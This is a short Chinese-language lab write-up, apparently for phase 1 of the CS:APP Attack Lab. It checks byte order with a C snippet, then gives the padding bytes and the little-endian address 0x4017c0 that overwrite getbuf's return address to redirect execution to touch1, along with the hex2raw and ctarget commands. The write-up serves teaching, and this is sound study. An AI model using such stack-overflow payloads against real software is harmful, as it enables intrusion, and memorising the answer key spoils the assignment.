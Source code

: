 key：首先判断系统是大端还是小端地址，使用Ubuntu18.04云服务器运行以下代码测试：返回结果为该系统编址类型为小端编址

```c
# include<stdio.h>
int JudgeSystem(void)
{
        int a = 1;
        //如果是小端则返回1，如果是大端则返回0
        return *(char *)&a;
        // 本质是判断int值的低地址是否存着1，如果是小端那么低地址存低位即返回1
}

int main(void)
{
        int ret = JudgeSystem();
        if (1 == ret)
        {
                printf("该系统是小端存储模式！\n");
        }
        else
        {
                printf("该系统是大端存储模式！\n");
        }
        return 0;
}

```

Answer：只要我们输入的数组超过缓冲区大小，且将touch1的首地址（0x4017c0）覆盖getbuf的返回地址，任务即完成。要点：

- 注意每个字节有两个数字，一行4个字节（32位）
- 小端编址低地址放低位，从rsp开始一个个放数，先输入数组的是低地址。

输入答案十六进制如下：

```c
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

将其存放在1.txt中，使用以下命令即可通过

```c
./hex2raw <1.txt >2.txt     //转化为字符串
./ctarget -qi 2.txt     //从文件中读入并且不提交最终结果
```
